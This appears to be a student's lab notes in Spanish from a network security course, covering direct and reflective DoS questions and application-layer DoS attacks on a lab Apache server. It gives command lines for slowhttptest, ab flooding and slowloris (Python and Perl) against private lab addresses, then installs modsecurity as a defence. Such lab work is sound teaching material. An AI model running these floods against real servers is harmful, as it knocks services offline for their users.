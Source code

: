 Para instalar todos los programas seguir [este tutorial](https://medium.com/@ismaelaguilera_/instalación-y-configuración-de-prometheus-grafana-centos8-331c0e43ccc1).

## APARTADO M
1. ¿Cómo podría hacer un DoS de tipo direct attack contra un equipo de la red de prácticas?
> ...

2. ¿Y mediante un DoS de tipo reflective flooding attack?
> ...

## APARTADO N
Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7).
> `apt install apache2`

> `curl https://www.alvarofreire.es/ > /var/www/html/index.html`

#### 1. Slowhttptest
> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking
> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python
> `git clone https://github.com/gkbrk/slowloris.git`

> `cd slowloris`

> `python3 slowloris.py 10.11.49.55 -s 500`

#### 4. Slowlori Perl

Crear archivo `slowlorys.pl` y copiar contenido de [aqui](https://github.com/GHubgenius/slowloris.pl/blob/master/slowloris.pl)
> `perl slowloris.pl -dns 10.11.49.55`

1. ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
> Con un firewall de aplicaciones web como modsecurity.
2. ¿Y si se produjese desde fuera de su segmento de red?
> ...
3. ¿Cómo podría tratar de saltarse dicha protección?
> ...

## APARTADO O
Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?
> [!Note]
> Para ver la lista de modulos activos usar `apachectl -M`.

> `apt install libapache2-mod-security2`

> `a2enmod headers`
